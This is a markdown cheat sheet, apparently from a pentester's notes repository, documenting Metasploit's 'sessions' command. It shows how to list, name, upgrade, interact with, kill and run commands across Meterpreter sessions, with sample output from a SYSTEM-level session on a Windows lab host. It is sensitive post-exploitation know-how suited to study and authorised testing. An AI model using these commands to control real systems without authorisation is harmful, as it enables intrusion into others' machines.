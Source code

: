 # 03 - Sessions

Search Tag(s): #metasploit-framework #command-and-control

## 3.1 - Help Menu

```
msf > sessions -h
Usage: sessions [options] or sessions [id]

Active session manipulation and interaction.

OPTIONS:

    -c, --command <command>              Run a command on the session given with -i, or all
    -C, --meterpreter-command <command>  Run a Meterpreter Command on the session given with -i, or all
    -d, --list-inactive                  List all inactive sessions
    -h, --help                           Help banner
    -i, --interact <id>                  Interact with the supplied session ID
    -k, --kill <id>                      Terminate sessions by session ID and/or range
    -K, --kill-all                       Terminate all sessions
    -l, --list                           List all active sessions
    -n, --name <id> <name>               Name or rename a session by ID
    -q, --quiet                          Quiet mode
    -s, --script <script>                Run a script or module on the session given with -i, or all
    -S, --search <filter>                Row search filter.
    -t, --timeout <seconds>              Set a response timeout (default: 15)
    -u, --upgrade <id>                   Upgrade a shell to a meterpreter session on many platforms
    -v, --list-verbose                   List all active sessions in verbose mode
    -x, --list-extended                  Show extended information in the session table

Many options allow specifying session ranges using commas and dashes.
For example:  sessions -s checkvm -i 1,3-5  or  sessions -k 1-2,5,6
```

## 3.2 - List Active Session IDs

```
msf > sessions -l

Active sessions
===============

  Id  Name  Type                     Information                   Connection
  --  ----  ----                     -----------                   ----------
  1         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ DEFALT  10.0.2.4:445 -> 10.0.2.15:50035  (10.0.2.15)

Upgrade the regular shell to meterpreter for enhanced post exploitation activities
```

## 3.3 - Upgrade Command Shell To Meterpreter Session

```
msf > sessions -u <session_ID>
```

## 3.4 - Name Session ID

```
msf > sessions -i 1 -n win10
[*] Session 1 named to win10
```

## 3.5 - Active Session IDs

```
msf > sessions -l

Active sessions
===============

  Id  Name   Type                     Information                   Connection
  --  ----   ----                     -----------                   ----------
  1   win10  meterpreter x64/windows  NT AUTHORITY\SYSTEM @ DEFALT  10.0.2.4:445 -> 10.0.2.15:50035  (10.0.2.15)
```

## 3.6 - Interact Session ID

```
msf > sessions -1
[*] Starting interaction with win10...


meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > background
[*] Backgrounding session win10...
```

## 3.7 - Print More Info Of Session ID

```
msf > sessions -v

Active sessions
===============

  Session ID: 1
        Name: win10
        Type: meterpreter windows
        Info: NT AUTHORITY\SYSTEM @ DEFALT
      Tunnel: 10.0.2.4:445 -> 10.0.2.15:50035  (10.0.2.15)
         Via: exploit/multi/script/web_delivery
   Encrypted: Yes (AES-256-CBC)
        UUID: e9b905d567404039/x64=2/windows=1/2022-05-14T21:23:58Z
     CheckIn: 60s ago @ 2022-05-14 18:09:35 -0400
  Registered: No

msf > sessions -x

Active sessions
===============

  Id  Name   Type                     Checkin?  Enc?  Local URI  Information                   Connection
  --  ----   ----                     --------  ----  ---------  -----------                   ----------
  2   win10  meterpreter x64/windows  57s ago   Y     ?          NT AUTHORITY\SYSTEM @ DEFALT  10.0.2.4:445 -> 10.0.2.15:50035  (10.0.2.15)
```

## 3.8 - Terminate Session ID

```
msf > sessions -k 1
[*] Killing the following session(s): 1
[*] Killing session 1
[*] 10.0.2.15 - Meterpreter session win10 closed.

msf > sessions -K
```

## 3.9 - Execute Commands Pass Through Session ID(s)

### 3.9.1 - Command Sessions

```
msf > sessions -s <module> <-i <session_ID> | all>

msf > sessions -c <shell_command> <-i <session_ID> | all>
```

### 3.9.2 - Meterpreter Sessions

```
msf > sessions -s <module | meterpreter_script> <-i <session_ID> | all>

msf > sessions -C <meterpreter_command> <-i <session_ID> | all>
```

---
## References

- [Metasploit Unleashed: Msfconsole Commands](https://www.offsec.com/metasploit-unleashed/msfconsole-commands/)